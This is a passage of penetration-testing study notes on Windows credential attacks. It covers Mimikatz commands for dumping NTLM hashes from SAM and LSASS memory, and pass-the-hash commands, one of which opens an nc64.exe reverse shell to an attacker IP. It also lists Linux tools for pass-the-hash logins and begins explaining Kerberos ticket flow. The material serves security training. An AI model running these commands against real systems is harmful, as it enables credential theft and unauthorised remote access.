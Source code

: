 All of this will happen locally with the hashes stored in the SAM if it's not a domain account.

##### Pass-the-Hash

If we end up with non-cracked NTLM password hashes and the windows domain is configured to use NTLM authentication, we can use pass-the-hash to authenticate.

**Extracting NTLM hashes from local SAM, only hashes from local users on the machine**:

From Mimikatz:

1. `privilege::debug`
2. `token::elevate`
3. `lsadump::sam`

**Extracting NTLM hashes from LSASS memory, for local users and domain users that recently logged into the machine:**

From Mimikatz:

1. `privilege::debug`
2. `token::elevate`
3. `sekurlsa::msv`

To perform pass-the-hash:

1. `token::revert` - Reestablish the original token privileges, or else PtH wouldn't work.
2. `sekurlsa::pth /user:<username> /domain:<domain name> /ntlm:<ntlm hash> /run:"<nc64.exe path> -e cmd.exe <attacker ip> <port>"` - Use PtH to run a reverse shell (you can run any other command you want).

Now `whoami` command will show the original user, but commands will use the injected credentials.

**Passing the hash using Linux:**

`xfreerdp /v:<victim ip> /u:<domain>\\<username> /pth:<ntlm hash>` - Connect to RDP.

`psexec.py -hashes <ntlm hash> <domain>/<username>@<ip address>` Connect via psexec.

`evil-winrm -i <ip address> -u <username> -H <ntlm hash>` - Connect to WinRM.

##### Kerberos Authentication

1. The user sends his username and a timestamp encrypted with a key derived from his password, to the Key Distribution Center (KDC) usually installed on the DC in charge of creating Kerberos tickets.

	Than the KDC will create and send back a Ticket Granting Ticket (TGT) so the user can use this to request tickets for specific services without sending his credentials, the KDC also sends a session key to generate the requests.

	The TGT is encrypted with the krbtgt account's password hash and isn't visible to the user, the KDC can decrypt the TGT to recover a copy of the session key.

![[855d6fa3ea4076164934a2ba9717ffb5.png]]

2. If the user wants to connect to a service in the network like a share, website or database he will send his username and timestamp encrypted using the session key, along with the TGT and a Service Principle Name which indicates the service and server name.

	The KDC will send a TGS and a Service Session Key, encrypted using the Service Owner Hash which is the user or machine account under which the service is run, the TGS contains a copy of the service session key.
